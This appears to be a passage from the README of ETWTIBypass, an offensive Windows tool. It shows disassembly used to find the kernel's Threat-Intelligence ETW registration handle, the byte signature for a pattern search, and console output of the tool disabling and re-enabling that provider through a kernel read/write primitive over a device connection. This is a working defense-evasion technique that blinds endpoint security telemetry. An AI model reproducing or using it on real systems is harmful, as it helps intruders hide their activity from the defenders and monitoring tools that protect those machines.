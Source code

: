 <pre>
lkd> u
nt!KeInsertQueueApc+0x12:
fffff806`8f880392 4155            push    r13
fffff806`8f880394 4156            push    r14
fffff806`8f880396 4157            push    r15
fffff806`8f880398 4883ec70        sub     rsp,70h
<mark>fffff806`8f88039c 4c8b15b5dfc700  mov     r10,qword ptr [nt!EtwThreatIntProvRegHandle (fffff806`904fe358)]</mark>
fffff806`8f8803a3 <mark>458be9</mark>          mov     r13d,r9d
fffff806`8f8803a6 <mark>488be9</mark>          mov     rbp,rcx
fffff806`8f8803a9 4d85d2          test    r10,r10
</pre>

<pre>
const uint8_t patternEtwThreatIntProvRegHandle[] = { 0x45, 0x8b, 0xe9, 0x48, 0x8b, 0xe9 };
</pre>

and so now, we need to do a binary search to find the handle, and for the binary search we can use the opcode highlighed (458be9 and 488be9) and start the search for the exported function `nt!KeInsertQueueApc`.

After getting the address of the handle, we just use our Read / Write primitive to enumerate the field and overwrite it.


## Usage

<pre>
C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /check
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
[+] IsEnabled: 1

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /disable
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /check
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
[+] IsEnabled: 0

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /enable
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380

